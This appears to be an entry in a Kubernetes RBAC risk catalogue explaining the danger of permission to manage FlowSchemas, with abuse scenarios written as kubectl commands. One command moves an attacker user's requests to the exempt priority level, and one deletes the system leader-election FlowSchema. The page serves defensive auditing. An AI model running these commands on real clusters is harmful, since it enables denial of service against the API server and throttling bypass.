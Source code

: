 ```yaml
---
id: 1098
title: "Manage FlowSchemas (API Server DoS/Manipulation)"
description: "Allows managing FlowSchema objects cluster-wide. FlowSchemas are part of API Priority and Fairness, controlling how API requests are categorized and prioritized. Misconfiguration can lead to denial of service against the API server for critical components or allow certain requests to bypass throttling, potentially overwhelming the server."
category: Denial of Service
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field                   | Value                                                                                                                 |
| ----------------------- | --------------------------------------------------------------------------------------------------------------------- |
| ID                      | 1098                                                                                                                  |
| Name                    | Manage FlowSchemas (API Server DoS/Manipulation)                                                                      |
| Risk Category           | Denial of Service                                                                                                     |
| Risk Level              | {{< risk Critical >}}                                                                                                 |
| Role Type               | ClusterRole                                                                                                           |
| API Groups              | flowcontrol.apiserver.k8s.io                                                                                          |
| Resources               | flowschemas                                                                                                           |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete]                                                                              |
| Tags                    | {{< tag "APIServerDoS" >}} {{< tag "ControlPlaneDisruption" >}} {{< tag "DenialOfService" >}} {{< tag "Tampering" >}} |

## Description

Allows managing FlowSchema objects cluster-wide. FlowSchemas are part of API Priority and Fairness, controlling how API requests are categorized and prioritized. Misconfiguration can lead to denial of service against the API server for critical components or allow certain requests to bypass throttling, potentially overwhelming the server.

## Abuse Scenarios

1. Create a new FlowSchema to prioritize malicious traffic or starve legitimate traffic.

```bash
kubectl create -f - <<EOF
apiVersion: flowcontrol.apiserver.k8s.io/v1beta2
kind: FlowSchema
metadata:
  name: malicious-flowschema
spec:
  matchingPrecedence: 10000 # High precedence
  priorityLevelConfiguration:
    name: exempt # Assuming an exempt priority level exists
  rules:
  - resourceRules:
    - apiGroups: [""]
      resources: ["pods"]
      verbs: ["create"]
    subjects:
    - kind: User
      name: <attacker-user>
EOF
# Example: kubectl create -f - <<EOF ... EOF

```

2. Delete an existing FlowSchema, disrupting API priority and fairness.

```bash
kubectl delete flowschema <flowschema-name>
# Example: kubectl delete flowschema system-leader-election

```
